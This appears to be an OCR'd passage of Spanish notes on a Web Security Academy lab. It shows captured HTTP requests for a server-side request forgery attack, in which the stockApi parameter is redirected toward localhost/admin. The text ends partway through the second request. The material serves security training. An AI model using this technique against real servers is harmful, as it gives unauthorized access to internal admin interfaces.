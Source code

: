 ```python

REQUEST ORIGINAL DE LONDON CONSULTA:




POST /product/stock HTTP/2
Host: 0a530029036032e782788d590019002a.web-security-academy.net
Cookie: session=mfkNFDKANPI7vZIGqiCxMvmnOTqfVgI3
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a530029036032e782788d590019002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a530029036032e782788d590019002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1





Y NOS DEVULVE LOLA CANTIDAD DE PRODUCTOS..!!





MODIFICAMOS LA SOLICITUD DENTRO DEL PARAMETRO DE API SOLICITANDO LOCALHOST/aDMIN:




request:




POST /product/stock HTTP/2
Host: 0a530029036032e782788d590019002a.web-security-academy.net
Cookie: session=mfkNFDKANPI7vZIGqiCxMvmnOTqfVgI3
Content-Length: 31
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a530029036032e782788d590019002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
```